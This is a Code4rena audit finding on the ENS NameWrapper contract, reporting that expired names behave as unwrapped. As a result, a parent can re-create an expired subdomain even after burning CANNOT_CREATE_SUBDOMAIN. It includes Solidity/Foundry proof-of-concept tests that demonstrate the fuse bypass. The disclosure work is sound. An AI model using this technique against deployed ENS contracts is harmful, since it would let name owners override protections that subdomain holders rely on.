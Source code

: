 ## Tags

- bug
- 2 (Med Risk)
- selected for report
- sponsor confirmed
- M-02

# [NameWrapper: expired names behave unwrapped](https://github.com/code-423n4/2022-11-ens-findings/issues/7) 

# Lines of code

https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L512
https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L550


# Vulnerability details

## Impact

- expired Names are supposed to be unregistered, but it behaves like unwrapped
- parent with `CANNOT_CREATE_SUBDOMAIN` fuse can "create" again an expired name
- parent can `ENS.setSubdomainOwner` before burning `CANNOT_CREATE_SUBDOMAIN` to be able to use the subdomain later


## Proof of Concept

Below is a snippet of the proof of concept. The whole code can be found in [this gist](https://gist.github.com/zzzitron/7670730176e35d7b2322bc1f4b9737f0#file-2022-11-ens-versus-poc-t-sol). And how to run test is in the comment in the gist.

As in the `wrapper/README.md`:

> To check if a name is Unregistered, verify that `NameWrapper.ownerOf` returns `address(0)` and so does `Registry.owner`.
> To check if a name is Unwrapped, verify that `NameWrapper.ownerOf` returns `address(0)` and `Registry.owner` does not.

Also, an expired name should go to Unregistered state per the graph suggests.
 
But, as the proof of concept below shows, after expiration, `NameWrapper.ownerOf(node)` is zero but `ens.owner(node)` is not zero. It is `Unwrapped` state based on the `wrapper/README.md`.


```solidity
    function testM3ExpiredNamesBehavesUnwrapped() public {
        string memory str_node = 'vitalik.eth';
        (bytes memory dnsName, bytes32 node) = str_node.dnsEncodeName();
        // before wrapping the name check
        assertEq(user1, ens.owner(node));
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(node));
        assertEq(owner, address(0));

        // -- wrapETH2LD
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, 0, address(0));
        // after name wrap check
        (owner, fuses, expiry) = nameWrapper.getData(uint256(node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH);
        assertEq(expiry, 2038123728);
        // wrapETH2LD --

        vm.warp(2038123729);
        // after expiry
        (owner, fuses, expiry) = nameWrapper.getData(uint256(node));
        assertEq(owner, address(0));
        assertEq(fuses, 0);
        assertEq(expiry, 2038123728);
        assertEq(nameWrapper.ownerOf(uint256(node)), address(0));
        assertEq(ens.owner(node), address(nameWrapper)); // registry.owner is not zero
        vm.expectRevert();
        registrar.ownerOf(uint256(node));
    }
```

Since an expired name is technically unwrapped, even a parent with `CANNOT_CREATE_SUBDOMAIN` can set the owner or records of the subdomain as the proof of concept below shows.

```solidity
    function testM3ExpiredNameCreate() public {
        // After expired, the ens.owner's address is non-zero
        // therefore, the parent can 'create' the name evne CANNOT_CREATE_SUBDOMAIN is burned
        string memory parent = 'vitalik.eth';
        string memory sub1_full = 'sub1.vitalik.eth';
        string memory sub1 = 'sub1';
        (, bytes32 parent_node) = parent.dnsEncodeName();
        (bytes memory sub1_dnsname, bytes32 sub1_node) = sub1_full.dnsEncodeName();

        // wrap parent and lock
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, uint16(CANNOT_UNWRAP), address(0));
        // checks
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP);
        assertEq(expiry, 2038123728);

        // create subnode
        vm.prank(user1);
        nameWrapper.setSubnodeOwner(parent_node, 'sub1', user2, PARENT_CANNOT_CONTROL, 1700000000);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, user2);
        assertEq(fuses, PARENT_CANNOT_CONTROL);
        assertEq(expiry, 1700000000);

        // now parent cannot create subdomain
        vm.prank(user1);
        nameWrapper.setFuses(parent_node, uint16(CANNOT_CREATE_SUBDOMAIN));
        (owner, fuses, expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP | CANNOT_CREATE_SUBDOMAIN);
        // parent: pcc cu CANNOT_CREATE_SUBDOMAIN
        // child: pcc
        // unwrap and sets the owner to zero

        // parent cannot use setSubnodeRecord on PCCed sub
        vm.expectRevert(abi.encodeWithSelector(OperationProhibited.selector, sub1_node));
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, user1, address(1), 10, 0, 0);

        // expire sub1
        vm.warp(1700000001);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(0));
        assertEq(fuses, 0);
        assertEq(expiry, 1700000000);
        assertEq(ens.owner(sub1_node), address(nameWrapper));

        // user1 can re-"create" sub1 even though CANNOT_CREATE_SUBDOMAIN is set on parent
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, address(3), address(11), 10, 0, 0);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(3));
        assertEq(fuses, 0);
        assertEq(expiry, 1700000000);
        assertEq(ens.owner(sub1_node), address(nameWrapper));

        // comparison: tries create a new subdomain and revert
        string memory sub2 = 'sub2';
        string memory sub2_full = 'sub2.vitalik.eth';
        (, bytes32 sub2_node) = sub2_full.dnsEncodeName();
        vm.expectRevert(abi.encodeWithSelector(OperationProhibited.selector, sub2_node));
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub2, user2, address(11), 10, 0, 0);
    }
```

## Tools Used

foundry

## Recommended Mitigation Steps

Unclear as the `NameWrapper` cannot set ENS.owner after expiration automatically.

<!-- zzzitron M03 -->

